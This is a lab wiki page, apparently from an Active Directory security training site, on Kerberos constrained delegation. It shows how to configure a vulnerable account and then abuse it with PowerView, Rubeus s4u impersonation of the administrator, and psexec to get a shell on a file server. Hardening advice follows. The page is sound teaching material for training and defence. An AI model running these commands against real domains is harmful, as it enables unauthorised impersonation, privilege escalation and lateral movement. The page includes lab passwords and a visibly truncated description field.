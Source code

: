 ```yaml
---
description: >-
  If a user or computer has constrained delegation configured, it's possible to
  impersonate any domain user and authenticate to a service that the user
  account is trusted to delegate to. It is also poss
---
```


# Constrained Delegation

## Configuring

### Prerequisite&#x20;

User `sa_transfer` creation from:

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

### Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open PowerShell and execute the following command to set a SPN for the user sa\_transfer:

```
setspn -A HTTP/FILE01.amsterdam.bank.local amsterdam\sa_transfer
```

![](<../../../.gitbook/assets/image (55).png>)

3\. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (37).png>)

4\. Open the "Users" directory and right click the `sa_transfer` user and select "Properties".

5\. Open the "Properties" tab and select "Trust this user for delegation to specified services only". Then click "Use any authentication protocol" and select "Add".

![](<../../../.gitbook/assets/image (60) (1).png>)

6\. Select "Users or Computers" and type `FILE01` and click "Check Names" and "OK".

![](<../../../.gitbook/assets/image (11).png>)

7\. Select the "cifs" service and click on "OK". Click on "Apply" and "OK" and the delegation is configured.

![](<../../../.gitbook/assets/image (58) (1).png>)



## Attacking

### How it works

If a user or computer has constrained delegation configured, it's possible to impersonate any domain user and authenticate to a service that the user account is trusted to delegate to. It is also possible to create tickets for other services since they aren't checked.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (16) (1).png>)

3\. Execute the following query to enumerate all users with constrained delegation and select the samaccountname and msds-allowedtodelegateto attributes.

```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

![](<../../../.gitbook/assets/image (73).png>)

4\. The user `sa_transfer` can delegate access to `cifs\FILE01.amsterdam.bank.local`. To abuse this we need access to the user, luckily we could reset the password earlier.

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

5\. First we need to calculate the hash of the user, for this we can use Rubeus, using the following command:

```
.\Rubeus.exe hash /password:'2i^t#fFpL' /user:sa_transfer /domain:amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (76) (1) (1) (1).png>)

6\. The next step is too request a TGT and then request two service tickets for CIFS, HOST and RPCSS. So we can interact with the file system and psremoting for the fileserver. The easiest way to do this is using Rubeus.

```
.\Rubeus.exe s4u /user:sa_transfer /rc4:58A0D6C796769B84609E5F68C2213F96 /impersonateuser:administrator /domain:amsterdam.bank.local /msdsspn:cifs/FILE01.amsterdam.bank.local /altservice:CIFS,HOST,RPCSS /file01.amsterdam.bank.local /ptt
```

{% hint style="info" %}
* Possbible alt services:&#x20;
  * CIFS for directory browsing
  * HOST and RPCSS for WMI
  * HOST and HTTP for PowerShell Remoting/WINRM
  * LDAP for dcsync
* Another thing to keep in mind is that you can impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
{% endhint %}



![](<../../../.gitbook/assets/image (54) (1).png>)

7\. When we list our tickets now we can see that we have three service tickets:

![](<../../../.gitbook/assets/image (48) (1).png>)

8\. Since we have a CIFS ticket we can list the `C` drive of the fileserver `FILE01`:

```
ls \\file01.amsterdam.bank.local\c$
```

![](<../../../.gitbook/assets/image (27).png>)

9\. We are unable to use the RPC and HOST tickets for pssession since the target server doesn't have it enabled. We can get a shell with the CIFS ticket by using psexec from sysinternals:

```
.\psexec64.exe \\file01.amsterdam.bank.local cmd.exe
```

![](<../../../.gitbook/assets/image (75) (1) (1).png>)

## Defending

### Recommendations

* Tightly secure and monitor the user of AD objects with delegation set.
  * Set strong passwords and rotate them periodically.
  * Limit logons to systems.
  * Harden the systems these accounts are used.
* Add the flag "this account is sensitive and cannot be delegated"
* Add all high privileged accounts to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}
